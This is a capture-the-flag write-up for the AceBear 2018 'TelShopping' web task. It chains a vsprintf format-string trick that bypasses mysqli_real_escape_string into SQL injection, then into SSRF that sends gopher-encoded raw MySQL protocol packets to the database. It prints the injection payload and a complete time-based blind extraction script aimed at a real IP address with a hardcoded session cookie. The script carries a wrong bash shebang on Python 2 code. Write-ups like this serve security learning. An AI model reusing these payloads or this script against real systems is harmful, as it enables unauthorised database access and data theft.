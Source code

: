 ```yaml
---
layout: post
title: TelShopping
category: AceBear 2018
---
```



So lets continue with the most hard task in this ctf , suggest you to try it , its still up for some days 

Ok the task was about web store , so you can buy some Tet as the task name :p 
![image](https://user-images.githubusercontent.com/7364615/35495325-aeef2cf4-04c0-11e8-86f0-f052c75800f8.png)

The orgz put also source code so we can check and and look for vuln part  `http://128.199.179.156/src.tar.gz`

Lets start look at the code and try to get it :D

Later , we can see that there is some place where we can control it 

![image](https://user-images.githubusercontent.com/7364615/35495452-40e69278-04c1-11e8-91d8-6ebf64cd8975.png)

`$_GET['uid']` was passed directly to the query , but thats was not so easy guys :p , there was filter for sure :D 

![image](https://user-images.githubusercontent.com/7364615/35495516-8042b1e0-04c1-11e8-94b7-743351c9c730.png)

`mysqli_real_escape_string` was here waiting for us , but there is little mistake here make all code weak 

![image](https://user-images.githubusercontent.com/7364615/35495681-6aa36d6a-04c2-11e8-956b-fd649c4cacd9.png)

So here vsprintf work as in C ,we can exploit it like format string 

So let me show my friend final exploit which maked us enable to manage the sqli and control it 100%

`
%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -
`

`
PS : 0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 = fIle:///var/www/html/ok.jpg 
`

So let me explain this payload to make it easy for you 

Here we have 

`
$prepare_qr = $jdb->addParameter("SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s",  $_GET['uid']);
$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
$result = $jdb->fetch_assoc($prepare_qr);
`

means here if we manipulate it we can inject quote without make the filter remove it 

As we have `vsprintf`, we can send %c and convert any ASCII code to char 

`
%c - The character according to the ASCII value
`

means if our unsername : %1$c it will put ASCII code in our query but converted to char 

`
39 = > '
`

and thats all what we need to make the bypass here 

This is the normal query , notice in the code we have 2x prepares  of this query , which make us manipulate the gid again :D 

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%s' and user='%s';
`

Lets see Hacker query :D

Note first the username:

```
Username : 39 /*test*/ 

(39 already used :D  , test as comment so its 39 only in final query)
```

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -' and user='39 /*test*/';
`

Here %1$c will be replaced by 39 and as we used %c it will do the job for us :D , so it will be single quote HaHa

And here the SQL done ! next please :D 

For sure we cant extract the flag from database usign just SQLI, because the user used here have just access to on database and not flag database

![image](https://user-images.githubusercontent.com/7364615/35496299-bd177d72-04c5-11e8-8dba-84c3ce376e40.png)

So we have 3 column extracted from the database, the 3rd one is sended to watermark_me, lets take a look at it

![image](https://user-images.githubusercontent.com/7364615/35496319-e35a5f0e-04c5-11e8-8d26-25ca499a8b3a.png)

It just do some image stuff , but our input sended to get_data which end us to exploit SSRF :D WHAT A DAY

OK, here we will use the SSRF to extract flag from database using the use already with privilege ,which is fl4g_m4n4g3r as mention in code

To do this we need to communicate with mysql , gopher can do this for us

So what we will do to make this as fast as we can , is the setup all this locally and check mysql traffic using

`
tcpdump -i lo -n dst port 3306 -w mysql.pcap
`

Then we just check the packet and make use it to exploit this last step 

unfortunately in our exploit we was missing the QUIT request ,then we notice that and make the exploit work perfectly

Here we choice to make `time based blind sql injection` 

Here is the final exploit 

```
#!/bin/bash
import struct 
import binascii
from binascii import hexlify
import requests
import time

cookies = {
    'PHPSESSID': '5icps1lfga9oqrsr5enundodv6',
}

auth = bytearray([0xb6, 0x0, 0x0,0x1,0x05, 0xa2, 0x3f, 0x00,0x00,0x00,0x00,0x01,0x08,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00] 
    + list(b'fl4g_m4n4g3r') + [0x00,0x00,0x6d,0x79,0x73,0x71,0x6c,0x5f,0x6e,0x61,0x74,0x69,0x76,0x65,0x5f,0x70,0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x00,0x71,0x03,0x5f,0x6f,0x73,0x10,0x64,0x65,0x62,0x69,0x61,0x6e,0x2d,0x6c,0x69,0x6e,0x75,0x78,0x2d,0x67,0x6e,0x75,0x0c,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x6e,0x61,0x6d,0x65,0x08,0x6c,0x69,0x62,0x6d,0x79,0x73,0x71,0x6c,0x04,0x5f,0x70,0x69,0x64,0x05,0x31,0x30,0x37,0x30,0x35,0x0f,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x76,0x65,0x72,0x73,0x69,0x6f,0x6e,0x06,0x35,0x2e,0x36,0x2e,0x33,0x30,0x09,0x5f,0x70,0x6c,0x61,0x74,0x66,0x6f,0x72,0x6d,0x06,0x78,0x38,0x36,0x5f,0x36,0x34,0x0c,0x70,0x72,0x6f,0x67,0x72,0x61,0x6d,0x5f,0x6e,0x61,0x6d,0x65,0x05,0x6d,0x79,0x73,0x71,0x6c])

def encode(s):
    return ''.join(map(lambda x: "%{:02x}".format(x), list(s)))

flag = ""
while True:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_!":
        cmd_arr = list(b"select flag from flag.flag where flag like '"+flag+i+"%' and sleep(5)")
        res = len(cmd_arr)+1
        cmd = struct.pack("<b", res) + bytearray([ 0x0, 0x0, 0x0, 0x03] + cmd_arr )
        quit_packet = bytearray([0x1, 0x0, 0x0, 0x0, 0x1])
        ddd = b"gopher://localhost:3306/A" + bytes(encode(auth + cmd + quit_packet))
        payload = "0x"+binascii.b2a_hex(ddd)
        t1 = time.time()
        url = "http://128.199.179.156/info.php?uid=%1$c%20and%201=2%20union%20select%201,2,"+payload+"%20--%20-"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 4.30:
            flag += i
            break
        print "time : "+str(t2 - t1)
        
    print flag

```
And the result :D 

![image](https://user-images.githubusercontent.com/7364615/35496852-0928447e-04c8-11e8-84b9-c83be6757662.png)

it was valid url , which give us the flag 

`
https://tinyurl.com/y9pplum3
`

![image](https://user-images.githubusercontent.com/7364615/35496901-3ba9a3b6-04c8-11e8-91c4-7292bc01d1dc.png)






